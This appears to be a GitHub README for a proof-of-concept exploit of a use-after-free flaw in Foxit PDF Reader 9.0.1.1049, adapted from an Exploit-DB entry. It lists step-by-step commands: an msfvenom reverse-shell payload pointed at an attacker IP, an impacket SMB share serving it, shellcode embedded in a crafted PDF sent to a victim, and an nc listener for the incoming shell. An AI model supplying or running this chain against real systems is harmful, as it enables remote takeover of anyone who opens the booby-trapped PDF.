 ## Foxit PDF Reader 9.0.1.1049 - Pointer Overwrite Use-After-Free (Without Metasploit)

Based on https://www.exploit-db.com/exploits/45269

1. Generate payload, the one i used for testing is:
  - msfvenom -p windows/shell_reverse_tcp LHOST=10.1.1.10 LPORT=443 -f exe > shell.exe

2. Open an SMB server with the payload in it
  - impacket-smbserver sharename /path/to/payload

3. Generate shellcode with the following script
 - ruby generate_shellcode.rb

4. Copy the output of the script and put it inside exploit.pdf, on the reclaim() function, where specified

5. Transfer exploit.pdf to victim

6. Open a listener on the attacking machine, in my case:
- nc -lnvp 443

7. Open exploit.pdf with the vulnerable version of foxit reader on the target

#PWNED

